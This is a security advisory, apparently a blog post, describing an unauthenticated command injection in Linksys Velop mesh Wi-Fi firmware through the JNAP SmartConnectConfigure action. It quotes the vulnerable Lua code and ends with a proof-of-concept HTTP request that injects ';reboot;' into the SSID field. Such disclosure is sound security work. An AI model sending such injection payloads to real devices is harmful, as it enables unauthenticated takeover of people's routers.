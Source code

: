 ```yaml
---
published: true
categories: [vulnerability,Linksys]
tags: [Linksys Velop Command Injection]
---
```


### Affected Software
The firmware version which I test is 1.1.2.185309
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system are the same.
### Vulnerability Details
No CVE at the moment
There is a command injection vulnerability through JNAP action of http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure , the vulneraibility may lead to RCE without authentication
JNAP is a web services protocol for Cisco, similar as HNAP. 

There are many X-JNAP-Actions can be made through HTTP request. One of the action is http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure , for example, the http server can handle the following request without any authentication.
~~~http
POST /JNAP/ HTTP/1.1
    Host: 10.158.1.1
    Accept: application/json; charset=UTF-8
    Expires: Fri, 10 Oct 2015 14:19:41 GMT
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
    Cache-Control: no-cache
    Content-Type: application/json; charset=UTF-8
    Content-Length: 135
    User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
    Connection: close
    X-JNAP-Action: http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure
    
    {"configApSsid":"ssid","configApPassphrase":"wifipass","srpLogin":"user","srpPassword":"password"}
~~~

Through the action name, this request seems to be used to configure the smart wifi so it needn't any authentication.The first .lua file which processes this request is smartconnect_server.lua in /JNAP/modules/:
~~~lua
local function SmartConnectConfigure(ctx, input)
        local smc = require('smartconnect')
        local sc = ctx:sysctx()
        local error, output = smc.smartConnectConfigure(sc, input)
        return error or 'OK'
    end
~~~

Input parameters will be passed to smartConnectConfigure function in smartconnect.lua in /usr/local/lib/lua/5.1/, when we looked into this function and found there is no check of the input parameters:

~~~lua
function _M.smartConnectConfigure(sc, input)
        sc:writelock()
        local hdk = require('libhdklua')
        local smart_mode = sc:get_smartmode()
        if smart_mode == 2 then
            -- If a device is Master node.
            local error, output = bluetooth.btSmartConnectConfigure(input.configApSsid, input.configApPassphrase, input.srpLogin, input.srpPassword)
            if not error then
                return nil
            else
                return error
            end
        elseif smart_mode == 0 then
            -- If a device is Unconfigured.
            sc:set_smartconnect_configured_ssid(input.configApSsid);
            sc:set_smartconnect_configured_passphrase(input.configApPassphrase);
            sc:set_smartconnect_auth_login(input.srpLogin);
            sc:set_smartconnect_auth_pass(input.srpPassword);
            sc:set_smartmode(1)
            sc:set_bridge_mode_wo_reboot(1)
            sc:set_wifibridge_mode_wo_event(2)
            -- sc:setevent(_M.SMART_CONNECT_SETUP_STATUS, 'DONE')
            -- sc:setevent(_M.FORWARDING_RESTART, '')
            os.execute('smcdb_cli create')
            os.execute('smcdb_cli update -s '..input.configApSsid..' -p '..input.configApPassphrase..' -l '..input.srpLogin..' -a '..input.srpPassword)
            os.execute('sysevent set smart_connect::setup_status AUTH')
            os.execute('sysevent set forwarding-restart')
            return nil
        else
            return 'ErrorBTUnsupportedMode'
        end
    end
~~~

Then btSmartConnectConfigure will be called:

~~~lua
function _M.btSmartConnectConfigure(configap, configpass, srplogin, srppass)
        local opt = '-f '..'-A '..configap..'-P '..configpass..'-L '..srplogin..'-R '..srppass
        local error, output = _M.btRunCentralCommandSync(opt)
        if error then
            return '_ErrorUnexpected'
        end
        return nil, output
    end

    function _M.btRunCentralCommandSync(option)
        assert(option)
        local output = {}
        local table
        local jsonData
        local json = require('libhdkjsonlua')
        local file = io.(_M.RUN_CENTRAL_CMD_SYNC:format(option))
        if file then
            jsonData = file:read('*a')
            file:close()
            -- Parsing result
            table = json.parse(jsonData)
            if not table then
                platform.logMessage(platform.LOG_ERROR, ('Failed parsing JSON data\n'))
                return 'error_get_result_fail'
            end
            if table.result == 'error_bt' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'error_get_result_fail'
            end
            if table.result == 'error_jnap_req_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'error_get_result_fail'
            end
            if table.result == 'error_not_connected' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTNotConnected'
            end
            if table.result == 'error_conn_lost' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTConnectionLost'
            end
            if table.result == 'error_notify_timeout' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTPeripheralNotRespond'
            end
            if table.result == 'error_command_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTCommandFailed'
            end
            if table.result == 'error_notify_enable_fail'
                or table.result == 'error_gatt_read_fail'
                or table.result == 'error_gatt_write_fail' then
                platform.logMessage(platform.LOG_ERROR, ('JNAP error(%s) occurred\n'):format(table.result))
                return 'ErrorBTCommunicationFailed'
            end
           output = table
        end
        return nil, output
    end
~~~

RUN_CENTRAL_CMD_SYNC is defined at the top of bluetooth.lua

    _M.RUN_CENTRAL_CMD_SYNC = '/usr/bin/btsetup_central %s'

So, there are four parameters passed to the function btSmartConnectConfigure: configApSsid,configApPassphrase,srpLogin and srpPassword. In the btRunCentralCommandSync function,  there is a call to /usr/bin/btsetup_central with the four parameters given. There is not any check of the four parameters and cause a command injection problem. Since this request will be processed without authentication, an attacker can get RCE with preauth.

#### PoC
The following PoC will cause a reboot of the node.
~~~http
    POST /JNAP/ HTTP/1.1
    Host: 10.158.1.1
    Accept: application/json; charset=UTF-8
    Expires: Fri, 10 Oct 2015 14:19:41 GMT
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
    Cache-Control: no-cache
    Content-Type: application/json; charset=UTF-8
    Content-Length: 135
    User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
    Connection: close
    X-JNAP-Action: http://linksys.com/jnap/nodes/smartconnect/SmartConnectConfigure
    
    {"configApSsid":"testssid;reboot;","configApPassphrase":"testwifipass","srpLogin":"testlogin","srpPassword":"testpass"}
~~~

### Timeline

2018-03-04: Discovered

2019-02-05: Reported, but the vendor has fixed
